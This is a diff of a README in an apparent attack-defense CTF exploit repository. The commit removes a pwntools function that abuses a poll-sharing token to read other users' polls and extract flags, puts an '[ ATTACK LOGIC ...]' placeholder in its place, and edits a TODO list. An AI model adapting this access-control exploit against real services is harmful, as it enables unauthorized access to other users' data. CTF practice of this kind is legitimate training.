

Before and after one commit to parmigggiana/attack_scripts, a Markdown page: README.MD, the part around the change printed below. Drawn GitHub-style; blank space fills up the shorter version.

```diff
--- a/README.MD
+++ b/README.MD
@@ -154,47 +126,12 @@ def share(target_ip):
         return []
 
     flags = []
-    p.recvuntil(b"]: ")
-    p.sendline(b"register")
-    p.sendlineafter(b"username: ", uuid.uuid4().hex.encode("ascii"))
-    p.sendlineafter(b"password: ", uuid.uuid4().hex.encode("ascii"))
-    p.recv(timeout=0.5)
 
-    for poll in get_polls_dict():
-        poll = json.loads(poll)
-        poll_id = poll["poll_id"]
-        username = poll["username"]
-        l.acquire()
-        log.debug(f"{poll_id = }, {username = }")
-        l.release()
+    """
+    [ ATTACK LOGIC ...]
 
-        p.sendline(b"access poll")
-        p.sendlineafter(b"back): ", b"share")
-        p.recv(timeout=0.5)
-        p.sendline(poll_id.encode("ascii"))
-        data = p.recv(timeout=0.5)
-        if "not" in str(data):
-            l.acquire()
-            log.debug(f"{target_ip} patched this vulnerability!")
-            l.release()
-            return []
+    """
 
-        token = str(data).split(": ")[1][:-3]
-        l.acquire()
-        log.debug(f"{token = }")
-        l.release()
-        p.sendlineafter(b"exit]: ", b"use token")
-        p.sendlineafter(b"Token: ", token)
-        p.sendlineafter(b"exit]: ", b"access poll")
-        p.sendlineafter(b"back): ", b"show")
-        p.sendlineafter(b"id: ", poll_id)
-
-        data = p.recv(timeout=0.5)
-        flag = str(data).split(", ")[0]
-        flag = str.replace(flag, "\\n", "")
-        flag = str.replace(flag, " ", "")
-
-        flags.append(flag[2:])
     l.acquire()
     log.success(f"{flags}")
     l.release()
@@ -204,4 +141,4 @@ def share(target_ip):
 ## TODO
 - [] Add flag submission logic
 - [] Fix live-updating configs and exploits
-- []
+- [] Move from pwn.log to proper logging with handler to distinguis processes and threads
```
Also changed, not shown: other parts of README.MD (+3 -31 lines).
